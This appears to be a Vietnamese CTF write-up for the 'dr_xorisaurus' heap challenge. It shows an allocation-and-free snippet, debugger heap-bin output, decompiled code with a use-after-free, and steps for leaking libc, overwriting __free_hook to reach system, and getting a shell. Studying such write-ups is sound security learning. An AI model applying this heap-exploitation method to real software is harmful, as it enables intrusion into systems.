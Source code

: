 # write up dr_xorisaurus 
- với bài này đầu tiên sẽ phải đưa free chunk xuống large bin, đưa xuống large bin nhằm làm xuất hiện điạ chỉ libc và cả địa chỉ heap
- bài cho phép allocate 20 chunk là max
- allocate hết để xíu nữa bước tiếp theo có đủ chỗ cho consolidation
```python
for i in range(20):
    alloc(0x77,f"{i}"*0x20)
for i in range(19):
    free(i)
```
- vì scanf cũng có thể dùng malloc để đọc dữ liệu với kích thước lướn nên e sẽ cho buffer là 0x500 số 1 và khi scanf allocate chunk rồi free, nó sẽ consolidate tất cả chunk trong fastbin để nó bỏ vào large bin
- vì thế không free chunk cuối để nó không bị kết vào top chunk
```bash
tcachebins
0x80 [  7]: 0x55555555c5a0 —▸ 0x55555555c520 —▸ 0x55555555c4a0 —▸ 0x55555555c420 —▸ 0x55555555c3a0 —▸ 0x55555555c320 —▸ 0x55555555c2a0 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
empty
largebins
0x600-0x630: 0x55555555c610 —▸ 0x55555554c070 (main_arena+1232) ◂— 0x55555555c610
```
- sau khi có được chunk ở large bin, ta allocate 1 ít từ đó nó thì địa chỉ libc và địa chỉ heap sẽ xuất hiện, nhưng để leak được libc thì cần phải dựa vào hàm read, vì hàm read là hàm đọc dữ liệu trong chương trình, hàm read sẽ không để lại null byte ở cuối 
```
 puts("What chemicals are you dumping in: ");
  return read(0, (&listptr)[i], size);
```
- sau khi leak được mọi thứ thì ta dùng hàm khác là hàm swapper vì hàm này bị uaf
```
int swapper()
{
  unsigned __int64 idx; // rbx MAPDST
  __int64 choice; // [rsp+8h] [rbp-18h] BYREF

  if ( dword_4064 > 1 )
    return puts("Dr. Xorisaurus doesn't like mistakes, so you can only swap chemicals once!");
  ++dword_4064;
  printf("Which glass do you want to swap chemicals: ");
  scanf("%lu", &idx);
  if ( !(&listptr)[idx] || idx > 0x18 )
    return puts("That glass literally doesn't exist");
  puts("Alright, high tech machines are starting to clean this glass!");
  puts("Hmmm... seems like the glass is too contaminated. We will need to swap the glasses too!");
  free((&listptr)[idx]);
  printf("Which choice of glass flasks do you need?\n 1. 81 milliliters \n 2. 93 milliliters\n Choice: ");
  scanf("%lu", &choice);
  if ( choice == 1 )
    (&listptr)[idx] = (char **)malloc(0x51uLL);
  if ( choice == 2 )
    (&listptr)[idx] = (char **)malloc(0x5DuLL);
  puts("Quickly pour in a tiny bit of chemicals: ");
  return read(0, (&listptr)[idx], 8uLL);
```
- thì sẽ ghi được địa chỉ vào sau khi free và khi đó có thể control được vùng __free_hook để có thể chạy hàm system
```bash
[*] Switching to interactive mode
 Alright, time to get dirty and dump it all!
$ ls
$ ls
Dockerfile    dr_xorisaurus.c    dr_xorisaurus.id2  dr_xorisauruse  pow.py
Makefile    dr_xorisaurus.i64  dr_xorisaurus.md   flag.txt          remote.py
challenge.yaml    dr_xorisaurus.id0  dr_xorisaurus.nam  ld-2.32.so      solve
dr_xorisaurus    dr_xorisaurus.id1  dr_xorisaurus.til  libc.so.6
Dockerfile    dr_xorisaurus.c    dr_xorisaurus.id2  dr_xorisauruse  pow.py
Makefile    dr_xorisaurus.i64  dr_xorisaurus.md   flag.txt          remote.py
challenge.yaml    dr_xorisaurus.id0  dr_xorisaurus.nam  ld-2.32.so      solve
dr_xorisaurus    dr_xorisaurus.id1  dr_xorisaurus.til  libc.so.6
```
